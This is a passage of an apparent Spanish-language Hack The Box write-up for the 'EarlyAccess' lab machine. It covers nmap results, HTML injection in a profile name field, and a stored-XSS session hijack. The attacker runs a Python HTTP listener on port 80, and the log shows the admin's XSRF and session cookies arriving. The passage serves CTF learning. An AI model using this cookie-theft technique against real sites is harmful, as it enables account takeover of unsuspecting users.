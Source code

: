 ```bash
'Service Info: Host: 172.18.0.102; OS: Linux; CPE: cpe:/',
'o:linux:linux_kernel',
'Service detection performed. Please report any incorrect results at',
'https://nmap.org/submit/ .',
'Nmap done: 1 IP address (1 host up) scanned in 14.22 seconds'
```

Googleando <i>OpenSSH 7.9p1 Debian 10+deb10u2 </i> sabemos que corre un Debian Buster.

Editamos <i>/etc/hosts </i> y añadimos earlyaccess.htb.

### earlyaccess.htb - TCP 443

Inspeccionando la página vemos un correo <i>admin@earlyaccess.htb</i>, al no ver nada interesante nos registramos con una cuenta.

Una vez dentro nuestra cuenta vemos varias pestañas nuevas Home, Messaging, Forum, Store y Register Key, notamos que al enviar mensajes nos responden al instante probamos alguna SQLI pero no obtenemos nada.

Sabemos que algunas veces los desarrolladores se enfocan en un solo apartado y se olvidan de otros, por ejemplo en la pestaña del perfil tenemos la opción de cambiar el nombre vemos si al enviar un mensaje con nuestro nuevo nombre <i>&#60;h1&gt;test &#60;h1&#62;</i> se interpreta HTML.
<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686605527/html_injection_gimp_mttc4l.webp'
width={700}
height={475}
/>

Intentamos un secuestro de sesión, ponemos un servidor por el puerto 80 y esperamos que admin abra nuestro mensaje para que nos llegue sus cookies y lo remplazamos en nuestra sesión actual.
<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686605556/hijack_session_coxtn0.webp'
width={828}
height={113}
/>

```bash
leo@nardo$ python3 -m http.server 80

'serving HTTP on 0.0.0.0 port 80 (https://0.0.0.0:80) ...',
"cookie=XSFR-TOKEN=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c;%20earlyaccess_session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c HTTP/1.1' 200 -"
```

<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686605583/replace_session_mifkke.webp'
width={400}
height={75}
/>
